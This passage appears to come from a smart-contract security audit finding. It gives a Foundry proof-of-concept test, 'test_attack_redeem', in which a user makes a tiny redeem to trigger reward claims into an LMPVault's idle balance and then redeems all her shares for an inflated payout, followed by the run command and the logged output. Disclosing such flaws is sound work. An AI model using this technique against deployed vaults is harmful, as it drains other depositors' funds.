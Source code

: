 ```solidity
			200e18
		);

		// Roll the block so that the rewards we queued earlier will become available
		vm.roll(block.number + 10_000);

		// assertEq(_lmpVault.totalIdle(), 800);
		console.log("total idle before redeem");
		console.log(_lmpVault.totalIdle());
		console.log("total debt before redeem");
		console.log(_lmpVault.totalDebt());
		console.log("balance of alice before redeem");
		console.log(_asset.balanceOf(alice));
		console.log("share of alice before redeem");
		console.log(_lmpVault.balanceOf(alice));
		// alice construct his redeem abuse
		vm.startPrank(alice);
		// withdraw minimal amount just to trigger claim reward to increase total idle
		uint256 assets1 = _lmpVault.redeem(1000, alice, alice);
		console.log("total idle after 1st redeem");
		console.log(_lmpVault.totalIdle());
		console.log("total debt after 1st redeem");
		console.log(_lmpVault.totalDebt());
		// after that, claim all her share to get maximal possible value after idle value increased
		uint256 assets2 = _lmpVault.redeem(_lmpVault.balanceOf(alice), alice, alice);
		vm.stopPrank();

		console.log("total idle after redeem");
		console.log(_lmpVault.totalIdle());
		console.log("total debt after redeem");
		console.log(_lmpVault.totalDebt());
		console.log("balance of alice after redeem");
		console.log(_asset.balanceOf(alice));
		console.log("share of alice after redeem");
		console.log(_lmpVault.balanceOf(alice));
		
	}
```

Run the test : 

```shell
forge test --match-contract LMPVaultMintingTests --match-test test_attack_redeem -vvv
```

Test output : 

```diff
Logs:
  .....

  balance of alice after redeem
  149999999999999999749
  share of alice after redeem
  0
```
